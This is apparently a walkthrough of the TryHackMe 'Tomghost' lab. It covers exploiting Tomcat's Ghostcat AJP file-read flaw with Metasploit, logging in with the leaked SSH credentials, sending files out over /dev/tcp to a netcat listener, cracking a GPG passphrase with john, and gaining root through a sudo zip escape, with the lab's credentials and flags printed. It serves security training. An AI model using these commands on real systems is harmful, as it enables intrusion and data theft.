

# Tomghost



## Open Port Scan

Use Rustscan to find out all open ports.

```bash
└─$ rustscan -a tomghost.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:53
Open xx.xx.xxx.xxx:8009
Open xx.xx.xxx.xxx:8080
...
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack ttl 62
8009/tcp open  ajp13      syn-ack ttl 62 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack ttl 62 Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (96%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 9 (Linux 4.4) (92%), Android 9 (Linux 4.9) (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are 4 opening ports:

- Port 22: SSH (OpenSSH 7.2p2 Ubuntu 4ubuntu2.8)
- Port 53: [tcpwrapped](https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan), maybe DNS?
- Port 8009: AJP13 (Apache Jserv (Protocol v1.3)), which should not be exposed
- Port 8080: HTTP (Apache Tomcat 9.0.30)

I try to connect to port 53 directly, but it disconnects the moment it establishes the connection.

```bash
└─$ nc -vv tomghost.thm 53
tomghost.thm [xx.xx.xxx.xxx] 53 (domain) open
 sent 0, rcvd 0
```

## Web Content Enumeration

As expected, we are greeted with Apache Tomcat version 9.0.30


We can do some simple enumeration, but it seems there is nothing special.

```bash
└─$ ffuf -u http://tomghost.thm:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://tomghost.thm:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 11196, Words: 4210, Lines: 200, Duration: 115ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 101ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 108ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 103ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 103ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 102ms]
:: Progress: [4614/4614] :: Job [1/1] :: 388 req/sec :: Duration: [0:00:12] :: Errors: 0 ::

```

I tried to access the `host-manager` and `manager` endpoint, but they only allow access locally.


## Example Endpoint

The `example` endpoint is also vulnerable, but exploiting it does not help us gain a foothold.

For more info, read this [writeup]([https://www.invicti.com/web-application-vulnerabilities/apache-tomcat-examples-directory-vulnerabilities](https://www.invicti.com/web-application-vulnerabilities/apache-tomcat-examples-directory-vulnerabilities))

## CVE-2020-1938

I then take a look at [Tomcat patches](https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.31), and found something very interesting.


We can utilize [CVE-2020-1938](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md) to potential read some files. 

I believe we can’t achieve RCE because we can’t upload files.

Fortunate for us, there is a dedicated module for this CVE

```bash
└─$ msfconsole -q
msf > search CVE-2020-1938

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read

Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

```

We just need to set up the `RHOSTS`.

```bash
msf auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)

View the full module info with the info, or info -d command.

msf auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS tomghost.thm
RHOSTS => tomghost.thm

```

When we run the exploit, we can see it works as intended

```bash
msf auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against xx.xx.xxx.xxx
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
[*] Auxiliary module execution completed
```

Wait, are these SSH credentials?

```bash
skyfuck:8730281lkjlkjdqlksalks
```

With that in mind, I plugged these credentials and it log in successfully

```bash
└─$ ssh skyfuck@tomghost.thm
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
skyfuck@tomghost.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ 
```

It seems this account has nothing special but two files

```bash
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ whoami
skyfuck
skyfuck@ubuntu:~$ id
uid=1002(skyfuck) gid=1002(skyfuck) groups=1002(skyfuck)
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

But let’s get the user flag first.

```bash
skyfuck@ubuntu:~$ cd ..
skyfuck@ubuntu:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Mar 10  2020 .
drwxr-xr-x 22 root    root    4096 Mar 10  2020 ..
drwxr-xr-x  4 merlin  merlin  4096 Mar 10  2020 merlin
drwxr-xr-x  3 skyfuck skyfuck 4096 May 28 06:13 skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

User Flag: `THM{GhostCat_1s_so_cr4sy}`

## Lateral Movement

In the above we found another user called `merlin` and two other files.

We will transfer the files back for analysis

We will first set up a `nc` listener

```bash
└─$ nc -lnvp 1234 > tryhackme.asc
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xx] from (UNKNOWN) [xx.xx.xxx.xxx] 54538

└─$ nc -lnvp 1234 > credential.pgp
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xx] from (UNKNOWN) [xx.xx.xxx.xxx] 54540
```

Then `cat` the file and redirect it to to `nc` listener

```bash
skyfuck@ubuntu:~$ cat tryhackme.asc > /dev/tcp/xxx.xxx.xxx.xx/1234
skyfuck@ubuntu:~$ cat credential.pgp > /dev/tcp/xxx.xxx.xxx.xx/1234
```

## Decrypt PGP file

So now we have a PGP file and a private key

```bash
└─$ file credential.pgp 
credential.pgp: PGP Elgamal encrypted session key - keyid: 61E104A6 6184FBCC Elgamal Encrypt-Only 1024b.

└─$ file tryhackme.asc 
tryhackme.asc: PGP private key block
```

To decrypt the file, we can follow this [guide](https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key)

When we first import the private key, we will be prompted to enter a passphrase.


I have no idea what the passphrase will be, so I did some research, and found that john the ripper can actually crack gpg hashes.

To begin, we need to first convert it to a readable format for john using `gp2john`

```bash
└─$ gpg2john tryhackme.asc > hash

File tryhackme.asc
```

Then we can break it using `rockyou.txt`, which I wasted a lot of time on the original wordlist:(

```bash
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2026-05-28 22:14) 8.333g/s 8933p/s 8933c/s 8933C/s marshall..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Now we know the passphrase is `alexandru`, we can import the key

```bash
└─$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

We can then decrypt the PGP file and know the credentials of `merlin`

```bash

└─$ gpg --decrypt credential.pgp 
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

With that we can log in as Merlin using SSH

## Privilege Escalation

It seems that Merlin has more power when compared to the original foothold

```bash
merlin@ubuntu:~$ id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)

```

Because of the `adm` group, I checked the /var/log directory, but nothing interesting there.

When I check the sudo rights of `merlin`, we saw it can use zip :0

```bash
merlin@ubuntu:/var/log$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

With Zip, we can escalate our privilege by following [gtfobins](https://gtfobins.org/gtfobins/zip/)

```bash
merlin@ubuntu:/$ sudo zip /tmp /etc/hosts -T -TT '/bin/sh #'
  adding: etc/hosts (deflated 31%)
# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old  ziPxYeJi
# whoami
root
```

Now we can get the root flag ;D

```bash
# cd /root
# ls
root.txt  ufw
# cat root.txt
THM{Z1P_1S_FAKE}
```

Root Flag: `THM{Z1P_1S_FAKE}`
